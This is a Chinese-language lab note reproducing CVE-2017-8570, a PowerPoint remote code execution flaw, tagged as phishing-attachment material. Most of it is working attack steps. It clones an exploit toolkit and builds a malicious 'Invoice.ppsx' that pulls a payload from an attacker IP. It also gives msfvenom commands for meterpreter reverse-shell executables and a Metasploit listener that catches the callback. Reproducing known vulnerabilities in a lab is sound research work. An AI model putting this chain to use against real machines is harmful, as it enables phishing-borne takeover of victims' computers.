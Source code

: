 ```yaml
---
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office漏洞
  - CVE-2017-8570
excerpt: 由于 Microsoft Office 处理内存对象的方式存在远程代码执行漏洞，又称“Microsoft Office 远程代码执行漏洞”。此 CVE ID 与 CVE-2017-0243 不同。
---
```


# CVE-2017-8570

> [Office CVE-2017-8570 远程代码执行漏洞复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2017/08/officecve.html#复现环境)
>
> [手冢冢/Office8570：CVE20178570 --- tezukanice/Office8570: CVE20178570 (github.com)](https://github.com/tezukanice/Office8570)
>
> ---
>
> [Office CVE-2017-8570漏洞复现-CSDN博客](https://blog.csdn.net/weixin_44283446/article/details/122035825)
>
> ---
>
> [Office CVE-2017-8570 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/08/office-cve-2017-8570-复现/)
>
> [Office CVE-2017-8570远程代码执行漏洞复现-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1047572)
>
> [CVE-2017-8570复现及编写脚本实现自动化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3772?time__1311=n4%2BxnD0DBDgDuADcQxlhAe0%3DePiKG%3D8OYss14D&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> ---
>
> [CVE-2017-8570 自动化 - Y4er的博客](https://y4er.com/posts/cve-2017-8570/)

- 测试环境: Win7+Office2016

---

## 简介

2017年7月，微软在例行的阅读补丁中修复了多个Microsoft Office漏洞，其中的CVE-2017-8570漏洞为一个逻辑漏洞。网上公布了利用代码，影响范围广泛。

该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是Microsof PowerPoint执行时会初始化“script”Moniker对象，而在PowerPoint播放动画期间会激活该对象，从而执行sct脚本(Windows script Component)文件。

可以欺骗用户运行含有该漏洞的PPT文件导致获取和当前登录用户相同的执行权限。

---

## 影响版本

```
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```

---

## 复现

- 攻击机
  - IP: `100.1.1.131`
  - `python 2.7`

- 靶机
  - IP: `192.168.5.11`
  - win7
  - Office2016


```bash
git clone https://github.com/tezukanice/Office8570.git
```

调整目录结构, 将 `template.ppsx` 放到 template 目录下

![image-20240613151844277](http://cdn.ayusummer233.top/DailyNotes/202406131518648.png)

```bash
# 生成恶意 PPSX 文件
python2 cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://100.1.1.131/logo.doc
```

![image-20240613152038446](http://cdn.ayusummer233.top/DailyNotes/202406131520504.png)

准备反弹Shell的exe文件

```bash
# 用 msf 的话
msfvenom -p windows/meterpreter/reverse_tcp LHOST=100.1.1.131 LPORT=6666 -f exe > shell.exe
## 若是 64 位操作系统的话
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.103 LPORT=6666 -f exe > shell.exe
```

将 `shell.exe` 放到项目目录下

![image-20240613152724555](http://cdn.ayusummer233.top/DailyNotes/202406131527625.png)

```bash
# 监听来自 ppsx 执行反弹 shell(ps:需要root权限)
python2 cve-2017-8570_toolkit.py -M exp -e http://100.1.1.131/shell.exe -l shell.exe
```

![image-20240613153318546](http://cdn.ayusummer233.top/DailyNotes/202406131533607.png)

```bash
# 用 msf 的话这里要设置 msf 监听
use exploit/multi/handler
set LHOST 100.1.1.131
set LPORT 6666
## for x86
set PAYLOAD windows/meterpreter/reverse_tcp
## for x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

将 Invoice.ppsx 放在靶机上用 PowerPoint 打开

![image-20240613153813982](http://cdn.ayusummer233.top/DailyNotes/202406131538069.png)

![image-20240613153916159](http://cdn.ayusummer233.top/DailyNotes/202406131539299.png)

![image-20240613154044274](http://cdn.ayusummer233.top/DailyNotes/202406131540452.png)

![image-20240613154205635](http://cdn.ayusummer233.top/DailyNotes/202406131542715.png)

---



















